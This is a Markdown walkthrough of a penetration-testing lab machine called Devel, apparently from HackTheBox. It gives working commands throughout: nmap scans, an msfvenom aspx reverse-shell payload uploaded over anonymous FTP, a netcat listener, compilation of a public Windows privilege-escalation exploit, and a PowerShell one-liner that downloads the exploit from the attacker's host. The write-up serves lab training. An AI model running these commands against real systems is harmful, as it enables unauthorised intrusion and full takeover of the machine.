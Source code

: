 Devel

# Reconnaissance 

### ****Scanning****

- **Initial Scan**
	- Command 
	`sudo nmap -sC -sV -T4 -O -oA devel 10.10.10.5`
		- `-sC`: run default nmap scripts
		- `-T4`: Set timing template (higher is faster)
		- `-O`: Detect OS
		- `sV`: detect service version
		- `-oA`: Output all files formats to name "lame"

Running the initial nmap scan showed 9 open ports on the target machine

- **Port 21**: Microsoft ftpd
- **Port 80**: Microsoft IIS httpd 7.5

![initial_scan](./Screenshots/Initial scan.png)

- **Full Scan**
Now let run a scan on all port to see if there are any other entry points.

	- Command 
	`sudo nmap -sC -sV -T4 -O -p- -oA devel_full 10.10.10.40`
		-	`-p-`: Scan all ports
		

We get the same results from the full scan.
[full scan]

- **UDP Scan**
Now to be extra thorough I'm going to run a UDP scan.

	- Command
	`sudo nmap -sU -T4 -O -p- -oA devel_udp 10.10.10.40`
		- `-sU`: UDP scan

[udp_scan.png]

--------------------------------------------
--------------------------------------------
# Enumeration

We saw in our initial scan that the server allows annonymous login on the FTP server. Meaning that anyone can login.

`ftp 10.10.10.5`

[ftp_login.png]

We can even list the files in the current directory.

[ftp_directories.png]

Let's see if we visit these files on the browser

[browser.png]

This leads me to believe that the ftp server is uploading files to the root directory of the web server.

I created a test file to see if I was able to upload it to the server and it was succesful.

[test_file,png]

We should be able to get a shell with this knowledge.

# Exploitation

We need to generate a payload in order to upload it to the FTP server and execute it in the browser to get a reverse shell. Since this is a windows web server we're going to need to generate our payload as a .aspx file.

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o devel_shell.aspx `

Now lets put the shell on the server

[put_shell.png]

Now lets set up out listener

`nc -lvnp 4444`

Now we can execute the file in the browser. We got our shell!

[reverse_shell.png]

# Priviledge Escalation

We have our shell as the user "iis apppool\web". We don't have much priviledge with this account so we're going to need to elevate our priviledges.

[user_shell.png]

Let's get some more information about this device.

`systeminfo`

The info shows that this machine is on an old version of windows and it have not been updated

Let's Google for exploits on the windows version "Microsoft Windows 7 build 7600"

We found one on exploit db so we should be able to find it in searchploit by searching the vulnerability name.

[priv_esc.png]

`searchsploit -m 40564`

Now that we have it copied to our directory we need to compile it with the instructions below

[compile_instructions.png]

`sudo apt install mingw-w64 `

Now we can compile it using the command listed in the exploit.

`i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`

Now lets set up a quick http server to transfer the file to the machine 

`python -m SimpleHTTPServer 8080`

Since there is no netcat installed on the machine, let use some powershell to grba the file.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8080/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

After running that we finally hve the exe file on our target machine 

[exe_ontarget.png]

After executing the file we have admin priviledges!

[admin_priv.png]

Navigating to babis desktop directory we got the user flag

[user_flag.png]

Navigating to the administrators desktop we got the root directory.

[root_flag.png]
